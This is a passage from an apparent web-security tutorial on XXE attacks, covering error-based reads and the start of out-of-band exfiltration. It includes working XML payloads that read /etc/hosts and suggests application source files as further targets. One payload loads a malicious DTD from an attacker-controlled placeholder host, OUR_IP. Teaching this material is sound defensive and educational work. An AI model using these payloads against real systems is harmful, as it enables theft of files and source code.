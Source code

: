 If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit. If the web application neither writes XML output nor displays any errors, we would face a completely blind situation.

First, **let's try to send malformed XML data**, and see if the web application displays any errors. To do so, we can delete any of the closing tags, change one of them, so it does not close (e.g. <roo> instead of <root>), or just reference a non-existing entity.

We see that we did indeed cause the web application to display an error, and it also revealed the web server directory, which we can use to read the source code of other files. Now, we can exploit this flaw to exfiltrate file content. To do so, we will use a similar technique to what we used earlier. First, we will host a DTD file that contains the following payload:

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

The above payload defines the file parameter entity and then joins it with an entity that does not exist. In our previous exercise, we were joining three strings. In this case, %nonExistingEntity; does not exist, so the web application would throw an error saying that this entity does not exist, along with our joined %file; as part of the error. There are many other variables that can cause an error, like a bad URI or having bad characters in the referenced file.

Now, we can call our external DTD script, and then reference the error entity, as follows:
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

Once we host our DTD script as we did earlier and send the above payload as our XML data (no need to include any other XML data), we will get the content of the /etc/hosts file.

This method may also be used to read the source code of files. All we have to do is change the file name in our DTD script to point to the file we want to read (e.g. "file:///var/www/html/submitDetails.php"). **However, this method is not as reliable as the previous method for reading source files, as it may have length limitations, and certain special characters may still break it**.


# Blind data exfiltration, out-of-band data exfiltration

We can utilize a method known as Out-of-band (OOB) Data Exfiltration, which is often used in similar blind cases with many web attacks, like blind SQL injections, blind command injections, blind XSS, and of course, blind XXE.

In our previous attacks, **we utilized an out-of-band attack since we hosted the DTD file in our machine and made the web application connect to us** (hence out-of-band).
So, our attack this time will be pretty similar, with one significant difference. Instead of having the web application output our file entity to a specific XML entity, **we will make the web application send a web request to our web server with the content of the file we are reading**.

To do so, we can first use a parameter entity for the content of the file we are reading while utilizing PHP filter to base64 encode it. Then, we will create another external parameter entity and reference it to our IP, and place the file parameter value as part of the URL being requested over HTTP, as follows:
